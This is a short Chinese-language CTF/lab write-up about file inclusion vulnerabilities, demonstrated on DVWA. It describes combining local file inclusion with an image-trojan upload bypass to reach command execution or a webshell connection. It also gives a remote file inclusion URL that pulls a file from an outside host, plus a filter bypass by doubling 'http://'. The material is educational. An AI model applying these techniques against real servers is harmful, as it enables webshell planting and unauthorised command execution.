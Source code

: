 ```yaml
---
title: 文件包含漏洞
date: 2024-10-14 14:25:30
tags: CTF
categories: CTF-Web
---
```


**渗透思路**
**有时候当我们发现了一个本地的文件包含漏洞，但我们也仅仅只能去读取一些本地的文件，没有办法去进行更深层次的利用，然后又在这个网站上发现了一个文件上传漏洞，同时这个文件上传漏洞如果单个来看是比较鸡肋的，比如它做了限制，只能发送图片，而这个图片却没有做严格的限制，我们可以通过一些图片木马来绕过上传，而这两个漏洞结合一下的话，就能达到很大效果了 比如我们上传了一个图片木马，没法单独去使用，但我们可以使用文件包含漏洞，去对这个文件进行包含，也就是说两个文件互相结合进行利用**

# 本地文件包含

上传文件到本地之后，通过可以访问资源的页面访问该文件

以DVMA为例

![image-20241009203148225](./文件包含漏洞/image-20241009203148225.png)



上传图片马后将路径保存，可在文件包含中访问该马，可以进行命令执行或者蚁剑连接

![image-20241009203256567](./文件包含漏洞/image-20241009203256567.png)

# 远程文件包含

可以将文件放在服务器上，在路径后拼接服务器网址即可访问服务器上的资源

```
http://127.0.0.1/DVWA/vulnerabilities/fi/?page=http://192.168.126.129/hack.txt
```

有的会对http://和https://进行过滤，可以使用复写绕过



访问txt文件可以，尝试访问马